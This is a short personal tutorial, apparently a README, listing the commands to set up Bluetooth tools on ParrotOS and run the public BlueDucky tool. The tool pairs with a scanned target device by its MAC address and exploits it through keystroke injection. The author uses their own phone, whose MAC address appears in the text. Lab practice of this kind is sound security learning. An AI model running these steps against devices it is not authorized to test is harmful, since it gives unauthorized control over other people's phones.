 1. Plug Bluetooth adapter into USB port
2. Disable Bluetooth adapters on Windows Device Manager
3. Open your Linux VM, I'm using ParrotOS
4. At the top of the VM window, select Devices > USB
5. Select your Bluetooth adapter, mine is Cambridge Silicon Radio
6. Create a "Bluetooth hacking directory"
7. Open "bluetooth hacking" in terminal
8. Run ```git clone https://github.com/pybluez/pybluez.git```
9. Run ```cd pybluez```
10. Run ```sudo python setup.py install```
11. Run ```sudo hciconfig -a``` to see your Bluetooth adapters and their status
12. Run ```sudo hciconfig hci0 up``` as needed. ```hci0``` may be different depending on your number of Bluetooth adapters
13. Run ```sudo hcitool scan``` to scan for Bluetooth devices
14. Once you find your target device, copy its MAC address
15. Run ```sudo sdptool browse {MAC address}``` without curly brackets
	1. My S10's MAC address is CC:21:19:B8:E1:6E
16. Install dependencies by running ```sudo apt install -y bluez-tools bluez-hcidump libbluetooth-dev git gcc python3-pip python3-setuptools python3-pydbus```
17. Run ```cd ..``` to go to "bluetooth hacking" directory
18. Run ```git clone --depth=1 https://github.com/bluez/bluez.git```
19. Run ```cd bluez```
20. Compile bdaddr.c by running ```sudo gcc -o bdaddr ./tools/bdaddr.c ./src/oui.c -I ./ -lbluetooth```
21. Make bdaddr runnable from anywhere by running ```sudo cp bdaddr /usr/local/bin```
22. Run ```cd ..``` to return to "Bluetooth hacking"
23. Run ```git clone https://github.com/pentestfunctions/BlueDucky.git```
24. Run ```cd BlueDucky```
25. If your Bluetooth adapter is anything other than hci0:
	1. open BlueDucky.py in a text editor
	2. Under main(), on line 674 that starts with ```parser.addargument``` change ```default='hci0'```
26. Run ```chmod 755 BlueDucky.py``` to change execution permissions to ```-rwxr-xr-x```
27. Run ```sudo python BlueDucky.py``` to pair to the target's device using its MAC address and exploit it
